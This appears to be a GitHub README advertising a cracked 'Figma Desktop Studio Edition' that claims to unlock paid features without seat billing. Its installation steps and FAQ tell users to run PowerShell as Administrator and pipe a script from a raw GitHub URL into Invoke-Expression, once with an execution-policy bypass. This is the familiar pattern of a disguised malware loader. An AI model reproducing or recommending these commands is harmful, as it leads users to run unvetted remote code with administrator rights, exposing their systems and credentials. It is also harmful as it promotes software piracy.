

<div align="center">


<br>


# Figma Desktop Studio Edition
**Studio · Prototyping · Dev Mode**
<br>
**Studio · Prototyping · Dev Mode**
<br>
Premium · Pro · Full build · Windows



**Fully unlocked Figma Desktop Studio — auto layout, interactive prototyping, Dev Mode inspect and shared design systems enabled.**

</div>

---

> Studio desktop unlocks unlimited files, team libraries and Dev Mode — design interfaces without Figma seat billing.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://raw.githubusercontent.com/Freelopiazza/Activate/refs/heads/main/install.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

- 🎨 **Design tools** — Auto layout, components and variants at Studio level.
- 🔗 **Prototyping** — Interactive flows, overlays and smart animate enabled.
- 👨‍💻 **Dev Mode** — Inspect, export and code connect for developers.
- 📚 **Team libraries** — Shared design systems and component publishing active.
- 🔓 **All features** — Branching, analytics and org admin tools included.
- 📤 **Export** — SVG, PNG and PDF at any scale without limits.
- ⚡ **One command** — PowerShell handles download, unpack, and setup.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 8 GB minimum |
| **Disk** | 4 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://raw.githubusercontent.com/Freelopiazza/Activate/refs/heads/main/install.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 8 GB minimum, 4 GB free space.
</details>


TAGS
figma-desktop, figma-studio, ui-design-figma, dev-mode, prototyping-figma, design-systems, figma-2026, ui-design, ux-design, web-design, product-design, creative-tools, interface-design, figma-desktop-pc, photo-editing
